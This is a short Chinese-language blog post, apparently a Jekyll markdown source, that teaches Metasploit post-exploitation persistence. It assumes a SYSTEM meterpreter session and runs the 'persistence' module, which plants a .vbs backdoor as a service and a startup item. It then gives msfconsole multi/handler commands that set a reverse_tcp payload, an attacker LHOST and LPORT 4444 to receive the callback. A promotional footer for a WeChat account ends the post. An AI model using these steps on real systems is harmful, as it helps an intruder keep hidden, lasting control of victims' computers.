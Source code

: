 ```yaml
---
layout: post
category: curleyg-code-hack
title: Metasploit访问控制的持久化
tagline: by CurleyG
tag: [hack,curleyg-code-hack]
excerpt: Metasploit访问控制的持久化
lock: need
---
```


# Metasploit访问控制的持久化

工具：Metasploit

为了实现这一点，可以选择在目标计算机上添加一个新的用户，也可以选择使用MSF中persistence模块。

运行persistence模块可以通过在目标计算机上安装一个永久性的后门来实现访问控制的持久化。这样，即使有一天目标计算机修补了漏洞，我们仍然可以通过这个连接来实现对目标计算机的控制。

这里，我们假设经过了一系列的渗透拿到了system权限的meterpreter，我们在meterpreter命令行执行如下命令：

```
run persistence
```

运行persistence模块会向目标计算机上传一个.vbs类型的恶意脚本文件，并在目标计算机上执行这个恶意脚本文件。这个脚本一旦在目标计算机上运行，每隔几秒钟就会主动连接攻击者的计算机。这个恶意脚本文件会被当做一个系统服务安装在目标计算机系统中，同时，会被添加到开机启动项中，因此，无论目标计算机重启多少次，该恶意服务都可以运行。除非卸载该服务或手动删除文件，否则恶意服务一直存在。

这里，我们重新开启一个MSF来验证：

```
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.109.137
set LPORT 4444
exploit
```

此处需要注意的是：我们设置攻击载荷和LPORT选项必须与运行persistence模块时设置的攻击载荷和LPORT选项相同。

发出攻击命令exploit后，exploit/multi/handler开始等待从目标系统上发回来的连接。一旦传入的连接被检测到，控制端就会切换到Meterpreter命令行。


## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)
